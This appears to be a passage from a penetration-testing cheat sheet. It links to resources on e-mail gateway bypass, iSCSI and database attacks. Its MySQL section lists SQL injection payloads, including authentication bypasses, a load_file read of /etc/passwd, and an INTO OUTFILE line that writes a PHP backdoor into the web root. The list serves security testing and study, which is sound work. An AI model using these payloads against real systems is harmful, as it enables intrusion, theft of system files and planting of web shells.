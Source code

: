 [How to Bypass E-Mail gateways using common payloads](https://www.youtube.com/watch?v=eZxWDCetqkE)

## iSCSI

**Resources**

[An interesting route to domain admin via ISCSI](https://www.pentestpartners.com/security-blog/an-interesting-route-to-domain-admin-iscsi/)

## Databases

##### MySQL

> ###### Resources

[SQL Injection](https://github.com/fuzzdb-project/fuzzdb/tree/master/attack/sql-injection)

[SQLMap tricks for advanced SQL injeciton](https://www.trustwave.com/Resources/SpiderLabs-Blog/Sqlmap-Tricks-for-Advanced-SQL-Injection/)

###### Examples

username'--
1'||'1'<'2
'OR 1=1;--
'OR 1=1;#
'OR 1=1 LIMIT 1; #
AND 1 = 2 UNION SELECT 1,2,3,4,5
1'1
1 exec sp_ (or exec xp_)
1 and 1=1
1' and 1=(select count(*) from tablenames); --
1 or 1=1
1' or '1'='1
1or1=1
1'or'1'='1
fake@ema'or'il.nl'='il.nl
1 union all select 1,2,3,4,load_file("/etc/passwd"),6
1 union all select 1,2,3,4,"<?php ?>",6 into outfile '/var/www/html/backdoor.php'



##### MSSQL

> ###### Resources

[PenTest & Hack MSSQL](http://travisaltman.com/pen-test-and-hack-microsoft-sql-server-mssql/)

[SQL Injection Cheatsheet MSSQL](https://www.gracefulsecurity.com/sql-injection-cheat-sheet-mssql/)

##### MongoDB

> ###### Resources

[NoSQL Map](https://github.com/codingo/NoSQLMap)

> ###### Examples
